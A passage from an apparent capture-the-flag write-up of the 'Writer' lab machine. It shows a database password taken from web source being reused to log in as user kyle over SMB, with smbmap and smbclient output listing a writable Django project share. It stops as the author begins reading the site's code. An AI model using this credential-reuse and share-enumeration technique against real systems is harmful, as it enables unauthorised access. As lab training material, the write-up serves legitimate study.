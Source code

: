 

    [writer2_project]
      path = /var/www/writer2_project
      valid users = @smbgroup
      guest ok = no
      writable = yes
      browsable = yes



I noted the DB credentials in the writer web source,
"ToughPasswordToCrack". That password works for kyle over SMB:



    oxdf@parrot$ smbmap -H 10.10.11.101 -u kyle -p ToughPasswordToCrack
                                                                                                        
    [+] IP: 10.10.11.101:445        Name: writer.htb                Status: Authenticated
            Disk                                                    Permissions     Comment
            ----                                                    -----------     -------
            print$                                                  READ ONLY       Printer Drivers
            writer2_project                                         READ, WRITE
            IPC$                                                    NO ACCESS       IPC Service (writer server (Samba, Ubuntu))



kyle has read/write access to `writer2_project`, which is running on
localhost:8080.

The files seem to match:



    oxdf@parrot$ smbclient -U kyle //10.10.11.101/writer2_project ToughPasswordToCrack
    Try "help" to get a list of possible commands.
    smb: \> ls
      .                                   D        0  Thu Dec  2 13:48:29 2021
      ..                                  D        0  Tue Jun 22 13:55:06 2021
      static                              D        0  Sun May 16 16:29:16 2021
      staticfiles                         D        0  Fri Jul  9 06:59:42 2021
      writer_web                          D        0  Wed May 19 11:26:18 2021
      requirements.txt                    N       15  Thu Dec  2 13:50:01 2021
      writerv2                            D        0  Wed May 19 08:32:41 2021
      manage.py                           N      806  Thu Dec  2 13:50:01 2021

                    7151096 blocks of size 1024. 2479424 blocks available



I can explore this code and get a feel for the second site.

### Version Two

In the `writerv2` directory, `urls` defines what urls match to what
views:



    ...[snip comments]...
    from django.conf.urls import url, include
    from django.contrib import admin
